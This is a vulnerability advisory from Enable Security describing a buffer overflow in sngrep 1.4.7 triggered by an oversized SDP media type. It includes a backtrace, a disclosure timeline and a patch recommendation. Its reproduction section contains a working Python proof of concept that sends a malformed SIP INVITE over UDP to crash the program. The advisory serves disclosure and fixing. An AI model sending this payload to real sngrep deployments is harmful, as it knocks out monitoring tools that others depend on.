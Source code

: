 # sngrep crashes due to a buffer overflow caused by a malformed SDP media type

- Fixed versions: 1.4.8
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2020-03-sngrep-malformed-media-type>
- Tested vulnerable versions: 1.4.7
- Timeline:
    - Report date: 2020-09-16
    - sngrep confirmed issue + patch: 2020-09-16
    - sngrep release with fix: 2020-11-10
    - Enable Security advisory: 2020-11-20

## Description

When sending a specially crafted SIP message with a malformed SDP media type, `sngrep` crashes due to a buffer overflow. The following backtrace was generated during our tests:

```
#0  __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:50
#1  0x00007ffff7ced859 in __GI_abort () at abort.c:79
#2  0x00007ffff7d583ee in __libc_message (action=action@entry=do_abort, 
    fmt=fmt@entry=0x7ffff7e8207c "*** %s ***: terminated\n")
    at ../sysdeps/posix/libc_fatal.c:155
#3  0x00007ffff7dfa9ba in __GI___fortify_fail (
    msg=msg@entry=0x7ffff7e82012 "buffer overflow detected") at fortify_fail.c:26
#4  0x00007ffff7df9256 in __GI___chk_fail () at chk_fail.c:28
#5  0x00007ffff7df8b36 in __strcpy_chk (dest=0x7ffff00306f2 "", 
    src=0x7ffff79fcad1 'A' <repeats 200 times>..., destlen=destlen@entry=15)
    at strcpy_chk.c:30
#6  0x0000555555563f72 in strcpy (__src=<optimized out>, __dest=<optimized out>)
    at /usr/include/x86_64-linux-gnu/bits/string_fortified.h:90
#7  media_set_type (media=<optimized out>, type=<optimized out>) at media.c:65
#8  0x0000000000000000 in ?? ()
```

The issue was originally discovered during [OpenSIPIt](https://opensipit.org/); tracked down and analyzed for severity and impact later.

## Impact

Since most modern build systems will automatically include run-time best practice checks, it is highly unlikely that this issue is exploited in a way that it overwrites to adjacent memory locations. However, due to how fortify protection works, the program will still end up crashing. Nonetheless, this issue should not be dismissed by relying on build system protections and should be adequately fixed.

## How to reproduce the issue

1. Run `sngrep`
1. Execute the following python program:

```python
import socket

sdp="v=0\r\n" + \
    "o=- 1600157102 1600157102 IN IP4 127.0.0.1\r\n" + \
    "s=-\r\n" + \
    "c=IN IP4 127.0.0.1\r\n" + \
    "t=0 0\r\n" + \
    "m=%s 9999 RTP/AVP 8 0 96 101\r\n" % ('A' * 1024) + \
    "a=rtpmap:8 PCMA/8000/1\r\n" + \
    "a=rtpmap:0 PCMU/8000/1\r\n" + \
    "a=rtpmap:96 opus/96000/2\r\n" + \
    "a=rtpmap:101 telephone-event/8000/1\r\n" + \
    "a=sendrecv"

sip_msg="INVITE sip:bob_1@127.0.0.1:5060 SIP/2.0\r\n" + \
    "Via: SIP/2.0/UDP 127.0.0.1:40111;rport;branch=z9hG4bK-a\r\n" + \
    "Max-Forwards: 70\r\n" + \
    "From: <sip:bob_1@127.0.0.1:5060>;tag=3Ewqeuo81F1Hjvtg\r\n" + \
    "To: <sip:bob_1@127.0.0.1:5060>\r\n" + \
    "Call-ID: maooZ4nDzmArTBkT\r\n" + \
    "CSeq: 1020 INVITE\r\n" + \
    "Contact: <sip:bob_1@127.0.0.1:40111;transport=udp>\r\n" + \
    "Content-Length: %i\r\n" % len(sdp) + \
    "Content-Type: application/sdp\r\n" + \
    "\r\n" + \
    sdp

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(sip_msg.encode(), ("127.0.0.1", 5060))
```
1. Notice that `sngrep` has crashed

## Solutions and recommendations

It is recommended that the length of the string passed to function `media_set_type` in `media.c` is checked against `MEDIATYPELEN`, which is of length 15.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.


